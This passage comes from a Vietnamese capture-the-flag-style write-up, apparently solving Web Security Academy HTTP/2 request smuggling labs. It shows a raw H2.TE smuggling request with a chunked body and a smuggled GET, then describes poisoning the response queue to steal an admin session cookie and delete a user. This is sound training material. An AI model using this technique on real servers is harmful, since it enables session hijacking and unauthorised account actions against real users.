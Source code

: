 >Send một complete request với đường dẫn không tồn tại thành công với chunked encoding => bài lab thuộc dạng `H2.TE`:
```
POST / HTTP/2
Host: 0aae00ec0445139b8823cd94004b0050.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Length: 85
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: 0aae00ec0445139b8823cd94004b0050.web-security-academy.net


```
![image](https://hackmd.io/_uploads/rymF-zU_R.png)

>Send request để poison response queue. Send liên tục cho đến khi nhận được response 302 chứa cookie=> đây là response sau khi admin đăng nhập thành công:
>![image](https://hackmd.io/_uploads/BkrKMz8dA.png)

>Thêm cookie vào request. Thử từng cookie và send liên tục cho tới khi nhận được cookie đúng của admin khi truy cập!

>Sau khi thử tầm 2 phút thì ta đã lấy thành công cookie của admin và truy cập được vào `/admin`:
>![image](https://hackmd.io/_uploads/B1kJmMUdR.png)

>Lấy đường dẫn xóa `carlos` và send request:
>![image](https://hackmd.io/_uploads/Hksl7zU_0.png)

>Xóa `carlos` thành công, hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/BygGmMI_0.png)

### **12. Lab: H2.CL request smuggling**
![image](https://hackmd.io/_uploads/SJ4RvlI_0.png)

>Ta thử send request  body tùy ý, kèm theo header `Content-Length: 0`. Sau khi gửi 2 lần thì respone "404 Not Found" Tấn công thành công dạng H2.CL:
>![image](https://hackmd.io/_uploads/S1MQM-LdA.png)
